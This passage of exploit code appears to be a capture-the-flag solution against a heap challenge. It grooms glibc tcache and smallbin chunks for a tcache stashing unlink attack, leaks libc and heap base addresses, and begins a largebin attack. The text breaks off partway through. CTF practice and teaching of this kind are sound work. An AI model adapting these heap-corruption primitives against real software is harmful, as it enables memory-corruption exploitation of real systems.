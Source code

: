 ```
#----- prepare tcache_stashing_unlink_attack
Change(2)
for x in xrange(5):
    Add(0x90, 'B'*0x28) # B0~B4
    Del(x)    # B0~B4

Change(1)
Add(0x150, 'A'*0x68) # A0
for x in xrange(7):
    Add(0x150, 'A'*0x68) # A1~A7
    Del(1+x)
Del(0)

Change(2)
Add(0xb0, 'B'*0x28) # B5 split 0x160 to 0xc0 and 0xa0

Change(1)
Add(0x180, 'A'*0x78) # A8
for x in xrange(7):
    Add(0x180, 'A'*0x78) # A9~A15
    Del(9+x)
Del(8)

Change(2)
Add(0xe0, 'B'*0x38) # B6 split 0x190 to 0xf0 and 0xa0

#----- leak libc_base and heap_base
Change(1)
Add(0x430, 'A'*0x158) # A16

Change(2)
Add(0xf0, 'B'*0x48) # B7

Change(1)
Del(16)

Change(2)
Add(0x440, 'B'*0x158) # B8

Change(1)
Show(16)
ru('message is: ')
libc_base = uu64(rl()) - 0x1ebfe0
lg('libc_base')

Edit(16, 'A'*0xf+'\n')
Show(16)
ru('message is: '+'A'*0xf+'\n')
heap_base = uu64(rl()) - 0x13940
lg('heap_base')


#----- first largebin_attack
Edit(16, 2*p64(libc_base+0x1ebfe0) + '\n') # recover
Add(0x430, 'A'*0x158) # A17
Add(0x430, 'A'*0x158) # A18
Add(0x430, 'A'*0x158) # A19

Change(2)
Del(8)
Add(0x450, 'B'*0x168) # B9

Change(1)
```